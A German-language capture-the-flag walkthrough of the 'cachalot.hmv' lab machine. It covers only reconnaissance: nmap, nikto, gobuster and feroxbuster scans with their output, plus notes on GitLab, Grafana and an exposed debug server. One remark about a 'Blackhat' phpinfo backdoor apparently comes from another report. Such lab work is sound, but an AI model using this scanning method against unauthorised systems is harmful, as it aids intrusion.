Verwendete Tools
Inhaltsverzeichnis
Reconnaissance
**Analyse:** Wie bei jedem initialen Test beginne ich mit der Netzwerkerkennung, um die IP-Adresse des Zielsystems zu ermitteln. Ich nutze den Befehl `arp-scan -l`, um eine Liste der aktiven Hosts im lokalen Netzwerk zu erhalten. Die Ausgabe pipe ich an `grep "PCS"`, um nach Zeilen zu filtern, die auf VirtualBox-Netzwerkkarten hindeuten ("PCS Systemtechnik"). Anschließend verwende ich `awk '{print $1}'`, um die erste Spalte (die IP-Adresse) aus der gefilterten Ausgabe zu extrahieren.
**Bewertung:** Der `arp-scan` war schnell und effizient und lieferte umgehend die IP-Adresse des Zielsystems: 192.168.2.215. Die Identifizierung der Virtualisierungsplattform ist für den Kontext des Tests nützlich.
**Empfehlung (Pentester):** Beginnen Sie lokale Netzwerktests stets mit einem schnellen Discovery-Scan wie `arp-scan`, um die Ziel-IP(s) zu identifizieren.
**Empfehlung (Admin):** Überwachen Sie Ihr Netzwerk auf unerwarteten ARP-Traffic. Nutzen Sie Netzwerksegmentierung, um die Reichweite solcher Discovery-Scans zu begrenzen.
└─# arp-scan -l | grep "PCS" | awk '{print $1}'
192.168.2.215
**Analyse:** Um die weitere Arbeit mit dem Zielsystem zu vereinfachen, füge ich einen Eintrag für die gefundene IP-Adresse (192.168.2.215) und den erwarteten Hostnamen `cachalot.hmv` zu meiner lokalen `/etc/hosts` Datei hinzu. Dies ermöglicht mir, den Hostnamen anstelle der IP-Adresse in meinen Befehlen zu verwenden. Ich nutze den `echo`-Befehl mit Umleitung (`>>`) um die Zeile direkt anzuhängen.
**Bewertung:** Das Hinzufügen des Ziels zur hosts-Datei ist ein einfacher, aber effektiver Schritt, der den Workflow während des Tests verbessert. Es hat keine Auswirkungen auf die Sicherheit des Zielsystems selbst, optimiert aber die Handhabung der Befehle auf meiner Angreifer-Maschine.
**Empfehlung (Pentester):** Passen Sie Ihre hosts-Datei frühzeitig an, um die Lesbarkeit und Handhabung der Befehle zu verbessern.
**Empfehlung (Admin):** Dieser Schritt betrifft nur die Angreifer-Maschine. Für das Zielsystem irrelevant.
└─# echo '192.168.2.215 cachalot.hmv' >> /etc/hosts
**Analyse:** Nun führe ich einen umfassenden Portscan auf dem Zielsystem (192.168.2.215) mit Nmap durch. Ich verwende die Optionen `-sS` (SYN-Scan), `-sC` (Standard-Skripte), `-sV` (Versionserkennung), `-p-` (Scan aller 65535 Ports), `-T5` (aggressives Timing) und `-AO` (OS-Erkennung und alle Skripte). Der Scan liefert eine detaillierte Liste aller offenen Ports und der darauf laufenden Dienste.
**Bewertung:** Dieser Nmap-Scan lieferte eine sehr interessante und umfangreiche Liste offener Ports: 22 (SSH), 80 (HTTP), 3000 (HTTP), 5022 (SSH), 5080 (HTTP), 8080 (HTTP), 9000 (HTTP). Dies deutet auf eine komplexere Umgebung hin, wahrscheinlich mit Containern oder verschiedenen Diensten, die auf ungewöhnlichen Ports laufen. Besonders hervorzuheben sind die zwei SSH-Dienste auf unterschiedlichen Ports (22 und 5022) mit unterschiedlichen Versionen und Hostkeys, sowie mehrere HTTP-Dienste (80 Apache, 3000 Grafana, 5080 nginx/GitLab, 8080 BaseHTTPServer, 9000 Golang/Docker UI). Dies gibt mir viele potenzielle Angriffsflächen, die ich nun detailliert untersuchen werde.
**Empfehlung (Pentester):** Führen Sie immer einen vollständigen Portscan (`-p-`) durch, um versteckte Dienste auf hohen Ports nicht zu übersehen. Analysieren Sie jeden offenen Port einzeln mit spezifischen Tools (z.B. Web-Scanner für HTTP-Ports, SSH-Scanner für SSH-Ports).
**Empfehlung (Admin):** Minimieren Sie die Anzahl offener Ports. Deaktivieren Sie alle Dienste, die nicht unbedingt benötigt werden. Überprüfen Sie die Konfiguration von Diensten auf nicht-standardmäßigen Ports. Implementieren Sie eine Firewall, die nur benötigten Traffic erlaubt.
└─# nmap -sS -sC -sV -p- -T5 -AO 192.168.2.215
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-06 22:31 CEST Nmap scan report for cachalot.hmv (192.168.2.215) Host is up (0.00022s latency). Not shown: 65528 closed tcp ports (reset) PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0) | ssh-hostkey: | 3072 ba:18:19:f5:08:d0:4d:8a:b2:94:17:79:4c:1e:c4:47 (RSA) | 256 3e:e8:74:93:18:86:75:82:3d:6b:e6:da:34:b8:7e:2b (ECDSA) |_ 256 81:5c:cf:9f:74:c7:5d:8d:b5:7b:05:76:76:b1:5c:2b (ED25519) 80/tcp open http Apache httpd 2.4.54 ((Debian)) |_http-server-header: Apache/2.4.54 (Debian) |_http-title: Cachalot 3000/tcp open http Grafana http | http-robots.txt: 1 disallowed entry |_/ |_http-trane-info: Problem with XML parsing of /evox/about | http-title: Grafana |_Requested resource was /login 5022/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 2048 dc:b0:80:64:72:f0:f1:5b:e4:16:0e:d6:02:92:e7:7a (RSA) | 256 cc:16:14:b9:d2:93:a6:2f:f7:36:a0:d9:56:e3:05:8e (ECDSA) |_ 256 a2:cc:cf:92:29:b9:76:fb:70:2e:c7:9e:2e:60:42:7d (ED25519) 5080/tcp open http nginx |_http-trane-info: Problem with XML parsing of /evox/about | http-title: Sign in \xC2\xB7 GitLab |_Requested resource was http://cachalot.hmv:5080/users/sign_in | http-robots.txt: 53 disallowed entries (15 shown) | / /autocomplete/users /search /api /admin /profile | /dashboard /projects/new /groups/new /groups/*/edit /users /help |_/s/ /snippets/new /snippets/*/edit 8080/tcp open http BaseHTTPServer 0.3 (Python 2.7.10) |_http-trane-info: Problem with XML parsing of /evox/about |_http-server-header: BaseHTTP/0.3 Python/2.7.10 |_http-title: Debug Server 9000/tcp open http Golang net/http server (Go-IPFS json-rpc or InfluxDB API) |_http-title: containers | docker web-ui MAC Address: 08:00:27:BE:A3:6D (PCS Systemtechnik/Oracle VirtualBox virtual NIC) Aggressive OS guesses: OpenWrt 21.02 (Linux 5.4) (96%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (96%), Linux 4.15 - 5.19 (96%), Linux 6.0 (96%), Linux 4.19 (95%), Linux 5.0 - 5.14 (94%), Linux 5.4 - 5.10 (93%), Linux 2.6.32 (93%), Linux 4.15 (93%), Linux 4.19 - 5.15 (93%) No exact OS matches for host (test conditions non-ideal). Network Distance: 1 hop Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel TRACEROUTE HOP RTT ADDRESS 1 0.22 ms cachalot.hmv (192.168.2.215) OS and Service detection performed. Please report any incorrect results at [Link: https://nmap.org/submit/ | Ziel: https://nmap.org/submit/] . Nmap done: 1 IP address (1 host up) scanned in 16.43 seconds
**Analyse:** Um spezifische Web-Schwachstellen auf dem primären Webserver auf Port 80 zu finden, setze ich den Webscanner Nikto ein. Der Befehl `nikto -h http://192.168.2.215` richtet den Scan auf das Ziel.
**Bewertung:** Nikto identifizierte auf Port 80 mehrere übliche Webserver-Konfigurationsprobleme, darunter fehlende Sicherheits-Header (`X-Frame-Options`, `X-Content-Type-Options`), mögliche Inode-Lecks über ETags und das Vorhandensein des Apache-Webserver-Handbuchs (`/manual/`) mit aktiviertem Directory Indexing in `/manual/images/`. Diese sind wichtige Hinweise auf unzureichende Härtung des Webservers, auch wenn sie nicht unbedingt zu RCE führen.
**Empfehlung (Pentester):** Überprüfen Sie die öffentlich zugänglichen Verzeichnisse wie `/manual/images/` auf sensible Dateien. Die fehlenden Sicherheits-Header sollten im Bericht dokumentiert werden.
**Empfehlung (Admin):** Entfernen Sie das Webserver-Handbuch und alle unnötigen Dateien aus dem Webroot. Deaktivieren Sie Directory Indexing. Implementieren Sie die empfohlenen Sicherheits-Header.
└─# nikto -h http://192.168.2.215
- Nikto v2.5.0 --------------------------------------------------------------------------- + Target IP: 192.168.2.215 + Target Hostname: 192.168.2.215 + Target Port: 80 + Start Time: 2025-06-06 22:31:44 (GMT2) --------------------------------------------------------------------------- + Server: Apache/2.4.54 (Debian) + /: The anti-clickjacking X-Frame-Options header is not present. See: [Link: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options | Ziel: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options] + /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: [Link: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/ | Ziel: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/] + No CGI Directories found (use '-C all' to force check all possible dirs) + /: Server may leak inodes via ETags, header found with file /, inode: 164, size: 5e2ec7bfeab00, mtime: gzip. See: [Link: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418 | Ziel: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418] + OPTIONS: Allowed HTTP Methods: OPTIONS, HEAD, GET, POST . + /manual/: Web server manual found. + /manual/images/: Directory indexing found. + 8102 requests: 0 error(s) and 6 item(s) reported on remote host + End Time: 2025-06-06 22:31:59 (GMT2) (15 seconds) --------------------------------------------------------------------------- + 1 host(s) tested
**Analyse:** Ich setze Gobuster ein, um Verzeichnisse und Dateien auf dem Webserver auf Port 80 zu finden. Ich verwende die Standard-Wordlist, erweitere sie mit einer Vielzahl von Dateierweiterungen (`-x txt,php,...`) und schließe bestimmte Fehlercodes aus (`-b '503,404,403'`). Die Option `-e` erweitert den Modus und `--no-error -k` unterdrückt Fehler und ignoriert SSL-Fehler (obwohl hier kein SSL verwendet wird).
**Bewertung:** Gobuster bestätigte die Existenz von `/index.html` und `/manual`, Letzteres als Weiterleitung (301) auf `/manual/`. Es fand auch `/background.png`. Diese Ergebnisse ergänzen die Nikto-Funde und bestätigen die Struktur des Webroots auf Port 80. Es wurden keine weiteren unerwarteten Verzeichnisse oder Dateien auf diesem Port gefunden, die sofort ins Auge stechen.
**Empfehlung (Pentester):** Kombinieren Sie immer verschiedene Tools (Nikto, Gobuster/Feroxbuster) für die Web-Enumeration, da sie unterschiedliche Stärken haben und unterschiedliche Ergebnisse liefern können.
**Empfehlung (Admin):** Entfernen Sie nicht benötigte Dateien und Verzeichnisse aus dem Webroot. Konfigurieren Sie den Webserver so, dass er keine Verzeichnisslistings anzeigt.
└─# gobuster dir -u "http://cachalot.hmv" -w "/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.2-medium.txt" -x txt,php,rar....s.map,pHtml,yaml -b '503,404,403' -e --no-error -k
=============================================================== Gobuster v3.6 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart) =============================================================== [+] Url: http://cachalot.hmv [+] Method: GET [+] Threads: 10 [+] Wordlist: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.2-medium.txt [+] Negative Status codes: 503,404,403 [+] User Agent: gobuster/3.6 [+] Extensions: mod,csv,svg,java,gz,conf,deb,phtml,pub,asp,accdb... [+] Expanded: true [+] Timeout: 10s =============================================================== Starting gobuster in directory enumeration mode =============================================================== http://cachalot.hmv/index.html (Status: 200) [Size: 356] http://cachalot.hmv/manual (Status: 301) [Size: 313] [--> http://cachalot.hmv/manual/] http://cachalot.hmv/background.png (Status: 200) [Size: 667992]
**Analyse:** Ich habe eine manuelle Verbindung zum HTTP-Dienst auf Port 8080 hergestellt und dokumentiere den Inhalt der Seite. Basierend auf dem Nmap-Scan ist dies ein `BaseHTTPServer 0.3 (Python 2.7.10)` mit dem Titel "Debug Server". Die Ausgabe zeigt Systeminformationen wie die interne IP-Adresse (`172.17.0.5`), Hostnamen (`35730cbdf3f1`), Home-Verzeichnis (`/root`) und PATH.
**Bewertung:** Der Dienst auf Port 8080 ist äußerst interessant. Die Bezeichnung "Debug Server" und die preisgegebenen Systeminformationen deuten auf eine nicht-produktive Umgebung hin, die möglicherweise weniger gehärtet ist. Die interne IP-Adresse (`172.17.0.5`) ist typisch für eine Docker-Umgebung (Standard-Bridge-Netzwerk), was die Ergebnisse des Nmap-Scans, der einen Docker Web UI auf Port 9000 vermutete, untermauert. Das Root-Verzeichnis `/root` und der PATH werden preisgegeben. Dies ist ein wertvoller Fund.
**Empfehlung (Pentester):** Untersuchen Sie diesen Debug-Server weiter. Gibt es weitere Endpunkte? Gibt es die Möglichkeit, Befehle auszuführen oder Dateien zu lesen/schreiben? Die Tatsache, dass er in einem Docker-Container läuft, bedeutet, dass Angriffe auf den Host über diesen Dienst schwieriger sein könnten (Container-Ausbruch nötig).
**Empfehlung (Admin):** Stellen Sie niemals Debug-Dienste oder interne APIs ungeschützt im Netzwerk bereit. Wenn absolut notwendig, beschränken Sie den Zugriff streng (Firewall-Regeln, Authentifizierung). Geben Sie niemals unnötige Systeminformationen über Webdienste preis.
Untersuchung des Debug-Servers auf Port 8080:
http://192.168.2.215:8080/ 172.17.0.5 Booted: 9m 45s ago HOME /root HOSTNAME 35730cbdf3f1 PATH /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
**Analyse:** Ich wiederhole hier die Ausgabe des Nmap-Scans, um eine schnelle Referenz auf alle offenen Ports und die identifizierten Dienste zu haben, da die Enumeration nun auf mehrere Ports abzielt.
**Bewertung:** Die Wiederholung dient dazu, die Komplexität des Ziels zu unterstreichen und die Vielfalt der Dienste zu visualisieren, die als Angriffsvektoren dienen könnten. Jeder gelistete Dienst (SSH, Apache, Grafana, nginx, GitLab, Python Debug Server, Docker UI) muss einzeln und in Kombination mit anderen Diensten analysiert werden.
**Empfehlung (Pentester):** Behalten Sie eine Übersicht über alle gefundenen Dienste. Priorisieren Sie die Ports und Dienste basierend auf ihren bekannten Schwachstellen und ihrer Komplexität (z.B. Webanwendungen sind oft gute erste Ziele).
**Empfehlung (Admin):** Eine klare Dokumentation aller laufenden Dienste und ihrer Zwecke ist essentiell für die Systemverwaltung und Sicherheit.
└─# nmap -sS -sC -sV -p- -T5 -AO 192.168.2.215 |grep open
22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0) 80/tcp open http Apache httpd 2.4.54 ((Debian)) 3000/tcp open http Grafana http 5022/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0) 5080/tcp open http nginx 8080/tcp open http BaseHTTPServer 0.3 (Python 2.7.10) 9000/tcp open http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
**Analyse:** Ich navigiere im Browser zur Adresse `http://192.168.2.215:5080/users/sign_in`, basierend auf der Nmap-Ausgabe, die einen GitLab-Login auf diesem Port vermutete. Das Bild im Bericht zeigt die Login-Seite von GitLab.
**Bewertung:** Die Bestätigung einer laufenden GitLab-Instanz ist sehr bedeutend. GitLab ist eine komplexe Anwendung, die in der Vergangenheit mehrere kritische Schwachstellen aufwies (insbesondere RCE). Die Version 11.4.7 wurde von Nmap und später Wappalyzer identifiziert. Dies ist eine spezifische Version, die ich auf bekannte Exploits untersuchen werde. Da es sich um eine Login-Seite handelt, ist Authentifizierung für die meisten Funktionen (und Exploits) erforderlich.
**Empfehlung (Pentester):** Suchen Sie nach öffentlichen Exploits oder bekannten Schwachstellen für GitLab Version 11.4.7. Versuchen Sie, Anmeldedaten (Standard-Anmeldedaten, durch andere Mittel kompromittierte Daten) für die GitLab-Instanz zu finden. Die Analyse der `phpinfo` für den Backdoor Header im Blackhat-Bericht hat gezeigt, wie wichtig es ist, jede Information zu nutzen. Hier werde ich nach Anmeldedaten suchen.
**Empfehlung (Admin):** Aktualisieren Sie GitLab auf eine nicht anfällige Version. Stellen Sie sicher, dass die Standard-Anmeldedaten geändert wurden. Implementieren Sie Multi-Faktor-Authentifizierung, wo möglich.
Zugriff auf die GitLab-Login-Seite auf Port 5080:
http://192.168.2.215:5080/users/sign_in

Bildbeschreibung: hier auf dem Bild sieht man die Gitlab login Webseite
**Analyse:** Ich betrachte die `robots.txt` Datei für die GitLab-Instanz auf Port 5080. Diese Datei gibt Suchmaschinen-Crawlern Anweisungen, welche Bereiche der Website nicht indiziert werden sollen. Oft enthält sie Pfade zu sensiblen Bereichen, die für einen Angreifer interessant sein könnten.
**Bewertung:** Die `robots.txt` für GitLab ist sehr umfangreich und listet viele Pfade auf, die Suchmaschinen meiden sollen (`Disallow:`). Dazu gehören `/admin`, `/profile`, `/dashboard`, `/projects/new`, `/groups/new`, `/users`, `/api` und viele mehr. Diese Liste liefert wertvolle Informationen über die Struktur der GitLab-Anwendung und interessante Endpunkte, die ich später als authentifizierter Benutzer untersuchen könnte. Die Tatsache, dass einige `robots.txt` Einträge, die eigentlich gesperrt sein sollten (z.B. `/users/sign_in/`, `/search/`, `/help/`), mit Status 200 antworten, ist ein kleiner Hinweis, aber nicht kritisch für die Sicherheit selbst.
**Empfehlung (Pentester):** Überprüfen Sie immer die `robots.txt` Datei auf Webservern. Sie kann wertvolle Informationen über versteckte oder sensible Pfade preisgeben, die manuell oder mit Fuzzing-Tools untersucht werden sollten.
**Empfehlung (Admin):** Veröffentlichen Sie nur die minimal benötigten Informationen in `robots.txt`. Beachten Sie, dass dies keine Sicherheitsmaßnahme ist, sondern nur eine Richtlinie für Crawler.
Analyse der `robots.txt` Datei für die GitLab-Instanz:
http://192.168.2.215:5080/robots.txt # See [Link: http://www.robotstxt.org/robotstxt.html | Ziel: http://www.robotstxt.org/robotstxt.html] for documentation on how to use the robots.txt file # # To ban all spiders from the entire site uncomment the next two lines: # User-Agent: * # Disallow: / # Add a 1 second delay between successive requests to the same server, limits resources used by crawler # Only some crawlers respect this setting, e.g. Googlebot does not # Crawl-delay: 1 # Based on details in [Link: https://gitlab.com/gitlab-org/gitlab-ce/blob/master/config/routes.rb | Ziel: https://gitlab.com/gitlab-org/gitlab-ce/blob/master/config/routes.rb], [Link: https://gitlab.com/gitlab-org/gitlab-ce/blob/master/spec/routing | Ziel: https://gitlab.com/gitlab-org/gitlab-ce/blob/master/spec/routing], and using application User-Agent: * Disallow: /autocomplete/users Disallow: /search Disallow: /api Disallow: /admin Disallow: /profile Disallow: /dashboard Disallow: /projects/new Disallow: /groups/new Disallow: /groups/*/edit Disallow: /users Disallow: /help # Only specifically allow the Sign In page to avoid very ugly search results Allow: /users/sign_in # Global snippets User-Agent: * Disallow: /s/ Disallow: /snippets/new Disallow: /snippets/*/edit Disallow: /snippets/*/raw # Project details User-Agent: * Disallow: /*/*.git Disallow: /*/*/fork/new Disallow: /*/*/repository/archive* Disallow: /*/*/activity Disallow: /*/*/new Disallow: /*/*/edit Disallow: /*/*/raw Disallow: /*/*/blame Disallow: /*/*/commits/*/* Disallow: /*/*/commit/*.patch Disallow: /*/*/commit/*.diff Disallow: /*/*/compare Disallow: /*/*/branches/new Disallow: /*/*/tags/new Disallow: /*/*/network Disallow: /*/*/graphs Disallow: /*/*/milestones/new Disallow: /*/*/milestones/*/edit Disallow: /*/*/issues/new Disallow: /*/*/issues/*/edit Disallow: /*/*/merge_requests/new Disallow: /*/*/merge_requests/*.patch Disallow: /*/*/merge_requests/*.diff Disallow: /*/*/merge_requests/*/edit Disallow: /*/*/merge_requests/*/diffs Disallow: /*/*/project_members/import Disallow: /*/*/labels/new Disallow: /*/*/labels/*/edit Disallow: /*/*/wikis/*/edit Disallow: /*/*/snippets/new Disallow: /*/*/snippets/*/edit Disallow: /*/*/snippets/*/raw Disallow: /*/*/deploy_keys Disallow: /*/*/hooks Disallow: /*/*/services Disallow: /*/*/protected_branches Disallow: /*/*/uploads/
**Analyse:** Ich setze Feroxbuster ein, um Verzeichnisse und Dateien auf der GitLab-Instanz auf Port 5080 zu enumerieren. Ich verwende die Standard-Wordlist, füge relevante Dateierweiterungen hinzu und filtere die Ergebnisse auf Statuscodes 200, 301, 302.
**Bewertung:** Feroxbuster fand zahlreiche Pfade auf Port 5080. Viele der Treffer sind Standard-GitLab-Ressourcen (CSS, JS, HTML-Seiten wie 422.html, 503.html, explore.html) oder API-Endpunkte (z.B. `/users/root/snippets.json`). Interessant ist das Listing von Pfaden, die mit `/users/root/` beginnen (z.B. `/users/root/snippets`, `/users/root/activity`, `/users/root/projects`). Obwohl dies standardmäßige GitLab-Endpunkte sind, deuten sie auf die Existenz eines Benutzers "root" hin und geben Einblick in dessen Aktivitäten und Projekte, falls ich mich authentifizieren kann. Die Umleitung von `/users/root/` zu `/root` ist ebenfalls notiert.
**Empfehlung (Pentester):** Analysieren Sie die gefundenen Endpunkte, insbesondere die API-Endpunkte, auf potenzielle Informationslecks oder Schwachstellen. Konzentrieren Sie sich auf den Benutzer "root" in GitLab.
**Empfehlung (Admin):** Minimieren Sie die über das Web zugänglichen Endpunkte und sichern Sie API-Zugriffe streng ab. Stellen Sie sicher, dass Benutzerprofile (auch für den Root-Benutzer) keine unnötigen Informationen preisgeben.
└─# feroxbuster --url "http://192.168.2.215:5080" --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.2-medium.txt -x .git,.php,.html,.xml,.zip,.7z,.tar,.bak,.sql,.py,.pl,.txt,.jpg,.jpeg,.png,.js,.aac,.ogg,.flac,.alac,.wav,.aiff,.dsd,.mp3,.mp4,.mkv,.phtml -s 200 301 302
___ ___ __ __ __ __ __ ___ |__ |__ |__) |__) | / ` / \ \_/ | | \ |__ | |___ | \ | \ | \__, \__/ / \ | |__/ |___ by Ben "epi" Risher 🤓 ver: 2.11.0 ───────────────────────────┬────────────────────── 🎯 Target Url │ http://192.168.2.215:5080 🚀 Threads │ 50 📖 Wordlist │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.2-medium.txt 👌 Status Codes │ [200, 301, 302] 💥 Timeout (secs) │ 7 🦡 User-Agent │ feroxbuster/2.11.0 💉 Config File │ /etc/feroxbuster/ferox-config.toml 🔎 Extract Links │ true 💲 Extensions │ [git, php, html, xml, zip, 7z, tar, bak, sql, py, pl, txt, jpg, jpeg, png, js, aac, ogg, flac, alac, wav, aiff, dsd, mp3, mp4, mkv, phtml] 🏁 HTTP methods │ [GET] 🔃 Recursion Depth │ 4 ───────────────────────────┴────────────────────── 🏁 Press [ENTER] to use the Scan Management Menu™ ────────────────────────────────────────────────── .... ... 200 GET 72l 207w 2095c http://192.168.2.215:5080/robots.txt 200 GET 2l 318w 16392c http://192.168.2.215:5080/assets/webpack/pages.users.620d5164.chunk.js 200 GET 2l 1184w 61099c http://192.168.2.215:5080/assets/webpack/commons~pages.groups.show~pages.projects.environments.metrics~pages.projects.graphs.show~pages.users.7ba1fbfd.chunk.js 200 GET 1l 5w 245c http://192.168.2.215:5080/users/root/snippets.json 200 GET 1l 4w 88c http://192.168.2.215:5080/users/root/groups.json 200 GET 7l 18w 381c http://192.168.2.215:5080/root.atom 200 GET 299l 936w 15535c http://192.168.2.215:5080/users/root/groups 200 GET 1l 5w 169c http://192.168.2.215:5080/users/root/projects.json 301 GET 1l 5w 96c http://192.168.2.215:5080/users/root/ --> http://192.168.2.215:5080/root 200 GET 300l 942w 15606c http://192.168.2.215:5080/users/root/snippets 200 GET 299l 936w 15539c http://192.168.2.215:5080/users/root/activity 200 GET 1l 1w 2c http://192.168.2.215:5080/users/root/calendar.json 200 GET 6l 14w 118c http://192.168.2.215:5080/users/root/calendar_activities 200 GET 299l 936w 15520c http://192.168.2.215:5080/root 200 GET 299l 936w 15545c http://192.168.2.215:5080/users/root/contributed 200 GET 1l 5w 159c http://192.168.2.215:5080/users/root/contributed.json 200 GET 299l 936w 15539c http://192.168.2.215:5080/users/root/projects 200 GET 244l 777w 13120c http://192.168.2.215:5080/explore.html 200 GET 94l 192w 2936c http://192.168.2.215:5080/422.html 200 GET 93l 186w 2930c http://192.168.2.215:5080/503.html ....
**Analyse:** Ich setze Feroxbuster auch auf dem Grafana-Dienst auf Port 3000 ein, um dort Verzeichnisse und Dateien zu finden, die über die Standard-Login-Seite hinausgehen. Die Optionen sind ähnlich wie beim Scan auf Port 5080.
**Bewertung:** Feroxbuster fand einige relevante Pfade auf Port 3000, darunter `/login` und `/signup` (was zur Identifizierung als Grafana passt) und verschiedene Pfade unter `/public/build/`, die auf JavaScript-Dateien für das Frontend hindeuten. Interessanter sind Pfade wie `/public` und `/reports` (die weiterleiten) sowie `/public/img`. Dies gibt mir einen Einblick in die Struktur des Grafana-Webservers.
**Empfehlung (Pentester):** Untersuchen Sie die gefundenen Pfade manuell oder mit spezialisierten Grafana-Tools, falls verfügbar. Achten Sie auf öffentlich zugängliche Dateien oder APIs unter `/public/`.
**Empfehlung (Admin):** Stellen Sie sicher, dass alle öffentlich zugänglichen Verzeichnisse sicher konfiguriert sind und keine sensiblen Dateien enthalten.
└─# feroxbuster --url "http://192.168.2.215:3000" --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.2-medium.txt -x txt,php,rar....s.map,pHtml,yaml -b '503,404,403' -e --no-error -k
___ ___ __ __ __ __ __ ___ |__ |__ |__) |__) | / ` / \ \_/ | | \ |__ | |___ | \ | \ | \__, \__/ / \ | |__/ |___ by Ben "epi" Risher 🤓 ver: 2.11.0 ───────────────────────────┬────────────────────── 🎯 Target Url │ http://192.168.2.215:3000 🚀 Threads │ 50 📖 Wordlist │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.2-medium.txt 👌 Status Codes │ [200, 301, 302] 💥 Timeout (secs) │ 7 🦡 User-Agent │ feroxbuster/2.11.0 💉 Config File │ /etc/feroxbuster/ferox-config.toml 🔎 Extract Links │ true 💲 Extensions │ [git, php, html, xml, zip, 7z, tar, bak, sql, py, pl, txt, jpg, jpeg, png, js, aac, ogg, flac, alac, wav, aiff, dsd, mp3, mp4, mkv, phtml] 🏁 HTTP methods │ [GET] 🔃 Recursion Depth │ 4 ───────────────────────────┴────────────────────── 🏁 Press [ENTER] to use the Scan Management Menu™ ────────────────────────────────────────────────── ... 200 GET 2l 1581w 80548c http://192.168.2.215:3000/public/build/6278.7bf7079e5ffd2b9b4bd3.js 200 GET 3l 3799w 185627c http://192.168.2.215:3000/public/build/3144.7bf7079e5ffd2b9b4bd3.js 200 GET 3l 55711w 3378979c http://192.168.2.215:3000/public/build/633.7bf7079e5ffd2b9b4bd3.js 200 GET 192l 704w 27909c http://192.168.2.215:3000/login 200 GET 192l 704w 27860c http://192.168.2.215:3000/signup 302 GET 2l 2w 31c http://192.168.2.215:3000/public --> http://192.168.2.215:3000/public/ 302 GET 2l 2w 24c http://192.168.2.215:3000/reports --> http://192.168.2.215:3000/ 302 GET 2l 2w 35c http://192.168.2.215:3000/public/img --> http://192.168.2.215:3000/public/img/ ...
**Analyse:** Ich führe auch einen Feroxbuster-Scan auf dem Dienst auf Port 9000 durch, der als "Golang net/http server" und "containers | docker web-ui" identifiziert wurde. Ich verwende die gleichen Optionen wie zuvor.
**Bewertung:** Der Scan auf Port 9000 fand verschiedene Pfade, insbesondere unter `/assets/`, die auf statische Dateien (CSS, JS, Bilder) einer Web-Oberfläche hindeuten. Interessant ist der Fund von `/version`, `/assets/js/min/clients/index.js`, `/assets/js/min/containers/statistics.js` und Pfaden mit Weiterleitungen (`301`) wie `/assets/css` -> `css/`. Dies bestätigt das Vorhandensein einer Web-Oberfläche und gibt Einblick in deren Dateistruktur. Die Endpunkte unter `/assets/js/min/...` deuten auf clientseitigen Code hin.
**Empfehlung (Pentester):** Untersuchen Sie die gefundene Web-Oberfläche auf Port 9000 manuell. Prüfen Sie den Source Code der clientseitigen Skripte (`.js`) auf Hinweise zur Funktionalität oder versteckte Endpunkte.
**Empfehlung (Admin):** Überprüfen Sie, ob die Web-Oberfläche auf Port 9000 eine Authentifizierung erfordert und ob sensible Informationen oder Funktionen ungeschützt zugänglich sind.
└─# feroxbuster --url "http://192.168.2.215:9000" --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.2-medium.txt -x .git,.php,.html,.xml,.zip,.7z,.tar,.bak,.sql,.py,.pl,.txt,.jpg,.jpeg,.png,.js,.aac,.ogg,.flac,.alac,.wav,.aiff,.dsd,.mp3,.mp4,.mkv,.phtml -s 200 301 302
